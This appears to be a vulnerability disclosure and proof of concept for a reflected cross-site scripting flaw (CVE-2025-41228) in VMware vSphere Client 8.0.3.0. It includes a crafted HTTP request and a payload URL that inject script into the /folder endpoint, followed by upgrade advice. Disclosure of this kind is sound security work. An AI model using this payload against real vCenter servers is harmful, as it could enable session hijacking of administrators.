 # VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)

- **Exploit Title**: VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)
- **Date**: 2025-08-08
- **Exploit Author**: Imraan Khan (Lich-Sec)
- **Vendor Homepage**: [https://www.vmware.com](https://www.vmware.com)
- **Version**: vSphere Client 8.0.3.0
- **Tested On**: Web interface (Chrome 138)
- **CVE**: CVE-2025-41228
- **Category**: WebApps

---

## Description

A reflected Cross-Site Scripting (XSS) vulnerability exists in VMware vSphere Client version 8.0.3.0. The application fails to sanitize input passed via a query string to the `/folder` endpoint, resulting in arbitrary JavaScript execution when the reflected value is rendered into an HTML form’s `action` attribute.

The vulnerability was confirmed by intercepting a request through Burp Suite and injecting a malicious payload. This XSS only successfully executes when the response is rendered by a browser within an **active session**, such as one initiated via prior authentication.

---

## Steps to Reproduce

### 1. Initiate request to vulnerable endpoint

Open a browser and navigate to:

```
https://host/folder
```

This sends a benign request that you will intercept.

![Browser navigation to folder endpoint](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/browse.png)
![Folder directory listing](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/folder-dir.png)

---

### 2. Intercept and modify the request using Burp Suite

With Burp Suite proxy enabled, capture the request and modify the query string to inject the XSS payload:

```
GET /folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1 HTTP/2
Host: 10.x.x.x
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Referer: https://10.x.x.x/
Sec-Ch-Ua: "Chromium";v="138", "Not;A=Brand";v="24", "Google Chrome";v="138"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
Content-Length: 0
```

![Modified request in Burp Suite](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/request.png)

Then forward the request to the server.

---

### 3. Observe the reflected payload in the HTTP response

In the Burp HTTP Response, the payload appears unencoded within the HTML:

```html
<form action="/folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1" method="POST">
  <input name="VMware-CSRF-Token" type="hidden" value="..." />
```

![Reflected XSS payload in response](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/response.png)

This confirms that the payload is reflected back into the HTML in a dangerous context — inside a form’s `action` attribute — allowing script execution. 

---

### 4. Trigger script execution

Because the XSS is reflected but only renders within the full browser context, to observe the popup:

- Forward the exact same malicious request using Burp **with an authenticated session (cookies included)**.
- OR, use Burp's **"Open in Browser"** feature (with session cookies) to request the full response as a browser would.

Upon rendering the page, the browser will execute the injected `<script>`.

Example payload URL:

```
https://192.168.x.x/folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1
```

![JavaScript alert triggered](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/popup.png)

--- 

## Impact

Successful exploitation results in arbitrary JavaScript execution within the vSphere Client’s web interface. This could be leveraged for phishing, session hijacking, or further compromise of the admin's browser session.

---

## Recommendation

Upgrade to VMware vCenter Server version **8.0 U3e or later**, which remediates **CVE-2025-41228**.

---

## References

- https://nvd.nist.gov/vuln/detail/CVE-2025-41228
- https://www.vmware.com/security/advisories
